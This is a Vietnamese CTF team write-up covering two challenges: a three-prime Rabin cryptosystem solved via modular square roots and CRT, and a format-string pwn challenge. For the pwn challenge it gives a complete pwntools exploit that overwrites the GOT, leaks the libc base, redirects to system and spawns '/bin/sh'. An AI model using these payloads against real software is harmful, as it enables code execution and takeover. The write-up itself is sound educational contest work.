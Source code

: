 # WannaGame Chapionship

![img](https://github.com/datnlq/Source/blob/main/CTF/img/54010N.png?raw=true)

Chào các bạn, team mình vừa tham gia giải WannaOne tổ chức vừa qua và giải được 1 vài challenge, sau đây mình sẽ tổng hợp lại các writeup của cả team đã solve được :3

### Baby Square Root (Crypto)
![img](https://github.com/datnlq/Source/blob/main/CTF/img/baby_square_root.png?raw=true)
```
fromCrypto.Util.number import bytes_to_long, getPrime
from secret import flag

m = bytes_to_long(flag)

def genkey(nbits):
    while True:
        p, q, r = [getPrime(nbits) for _ in range(3)]
        if (p % 4 == 3) and (q % 4 == 3) and (r % 4 == 3):
            if (m % p)**2 > p and (m % p)**2 > q and (m % r)**2 > r:
                return p, q, r

p, q, r = genkey(256)
print("p = %d" % p)
print("q = %d" % q)
print("r = %d" % r)        
n = p * q * r
assert m * m > n
c = pow(m, 2, n)
print("c = %d" % c)
# p = 70983802669936779583888271861264418553792693554114299680738628616089490185419
# q = 58305592279975890783353046164122693676607057964958376141731197322666598532103
# r = 97916428487890361773100867250333330323792113286852927362830936108809145675571
# c = 133577637589652723069183361093768415945855108781724437021455876659182394384174818367149957719648205506911291215264096735072761818791817528925431287027255773272638623023278085524784625145794560351502585907066260712268740708335604444

```

Đọc hiểu đoạn code python trên chúng ta nhận ra 1 vài vấn đề như sau:

  + Đây là 1 bài [Rabin RSA](https://www.math.auckland.ac.nz/~sgal018/crypto-book/ch24.pdf)
  + q,p,r = 3 (mod 4)
  + Khi Legendre Symbol (x/N) = 1 thì x và n-x là 1 square modulo n

Dựa vào những phân tích ở trên ta có được các biểu thức sau:
  + mp = c^(p+1)/4 (mod p) => mp^2 = c (mod p)
  + mq = c^(q+1)/4 (mod q) => mq^2 = c (mod q)
  + mr = c^(r+1)/4 (mod r) => mr^2 = c (mod r)
  
 Từ những dữ kiện trên, ta dùng CRT để tính toán ra lại giá trị m. Dựa vào đó ta có code như sau:



```
from Crypto.Util.number import *
import gmpy2

p = 70983802669936779583888271861264418553792693554114299680738628616089490185419
q = 58305592279975890783353046164122693676607057964958376141731197322666598532103
r = 97916428487890361773100867250333330323792113286852927362830936108809145675571
c = 133577637589652723069183361093768415945855108781724437021455876659182394384174818367149957719648205506911291215264096735072761818791817528925431287027255773272638623023278085524784625145794560351502585907066260712268740708335604444
n = p * q * r

mp = pow(c, (p+1)//4, p)
mq = pow(c, (q+1)//4, q)
mr = pow(c, (r+1)//4, r)

print("mp = ", mp)
print("mq = ", mq)
print("mr = ", mr)

print(pow(mp, 2, p) == c%p)

yp = n//mq//mr
yq = n//mp//mr
yr = n//mp//mq

zp = inverse(yp, p)
zq = inverse(yq, q)
zr = inverse(yr, r)

m = (mp*yp*zp + mq*yq*zq + mr*yr*zr) 
m = 405251878563859034013993263635104394619048731139877286040011778613066766304610456261463756664887516315281979277436649271325146838356345161228881883353921803425724176576610588194813849282591846167918210163694920450096777213599649434
print(long_to_bytes(m))
print(long_to_bytes(n - m))
```
![img](https://github.com/datnlq/Source/blob/main/CTF/img/baby_square_root_flag.png?raw=true)

### letwarnup (Pwn)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup.png?raw=true)

Đây là một challenge khá là khó khăn với mình :| vì mình ngồi hơn 8h mà vẫn bị ngáo vì bài này @@

Đầu tiên đề cho chúng ta 2 file: 1 file binary và 1 libc.

Sử dụng các câu lệnh cơ bản để kiểm tra file và dùng IDA Pro để xem souce như sau:


![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_checkfile.png?raw=true)

Dựa vào file 64 binary để sử dụng IDA Pro 64 để dịch ngược lại:

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_IDAmain.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_IDAvuln.png?raw=true)

Sau đó chúng ta chạy thử chương trình và gdb để phân tích rõ flow của chương trình hơn.

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_test.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_debug_findbuffaddress.png?raw=true)
Như chúng ta thấy thì không hề thấy input đã được ghi vào stack làm mình hơi hoang mang

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_debug_stack.png?raw=true)

Tuy nhiên vì mình để ý thấy có hàm cấp phát malloc nên mình đã tìm lại 1 chút và phát hiện ra rằng input đã được ghi vào 1 giá trị trong stack

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_buffad.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_retvuln.png?raw=true)

Sau 1 loạt hành động thử như trên thì mình rút ra được vài điều như sau:

  + Đây là lỗi fmt ở hàm vuln
  + Flow của chương trình sẽ dừng ở hàm exit() trong hàm vuln()
  + Input sẽ không được ghi vào stack mà sẽ được ghi vào 1 địa chỉ tồn tại trong stack


Sau khi rút ra được những điều trên thì mình lú mất tiêu rồi @@ giờ intput không có trong stack, địa chỉ của exit cũng không có trong stack :| Out of game rồi

Sau đó có 2 hint xuất hiện như sau: 

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_hint1.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_hint2.png?raw=true)

Hint đề cập đế old rbp và 1 kỹ thuật nghe khá là lạ tai là two stage write sau đó gọi ý chúng ta sẽ tác động đến địa chỉ trong GOT table Hhmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmm

Sao vẫn có cảm giác out of game thế nhờ

Nhưng không sao, tư duy dần rõ ràng sau khi mình ngồi thêm vài tiếng :vv Mình đã có thể tạo ra địa chỉ của exit trên stack bằng old rbp của main được tại vuln, sau đó ta thay đổi giá trị của địa chỉ exit GOT bằng địa chỉ của hàm main để tạo ra 1 looping cho chúng ta khai thác
```
payload = b'%c%c%c%c%c%c%4210746c%lln%53743c%hn'
```
![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_payloadloop.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_payloadloop2.png?raw=true)

Sau đó chúng ta phải leak được lib base bằng cách leak địa chỉ của hàm trả về là __libc_start_main+243 với offset là 17 

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_retmain.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_leaklibcbase.png?raw=true)

Tính toán và ghi hàm system và exit GOT để có thể exploit bằng kỹ thuật ret2libc :<


![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_ret2libc.png?raw=true)

```
from pwn import *

BIN = "./letwarnup"
elf = ELF(BIN)
libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so')

def exploit():
	__breakpoint="""
		b*0x0000000000401278
		"""
	gdb.attach(io,__breakpoint)
	payload = b'%c%c%c%c%c%c%4210746c%lln%53743c%hn'
	io.sendlineafter(b'Enter your string:\n', payload)
	for i in range(1040):
	  io.recv()
	payload = b'%17$p'
	io.sendlineafter(b'Enter your string:\n', payload)
	libc.address = int(io.recv(14).decode(), 16) - libc.symbols['__libc_start_main'] - 243
	print('Libc base: ', hex(libc.address))
	io.sendlineafter(b'Enter your string:\n', b'%c%c%c%c%c%c%4210714c%lln')
	io.sendlineafter(b'Enter your string:\n', b'%c%c%c%c%c%c%4210716c%lln')
	offset = (libc.symbols['system'] & 0xff0000) >> 16
	syscall = libc.symbols['system'] & 0xffff
	print('Offset: ', hex(offset))
	print('System: ', hex(syscall))
	if offset < 14:
	  print('Fail: Offset < 14')
	  io.close()
	  exit(0)
	payload = '%c%c%c%c%c%c%c%c%c%c%c%c%c%c%' + str(offset - 14) + 'c%hhn%c%c%c%c%' + str(syscall - offset - 4) + 'c%hn'
	io.sendlineafter(b'Enter your string:\n', bytes(payload, 'utf-8'))
	io.sendlineafter(b'Enter your string:\n', b'/bin/sh\x00')
	io.interactive()
io = process(BIN)
#io = remote('45.122.249.68', 10005)
context.log_level = 'debug'
exploit()
```
























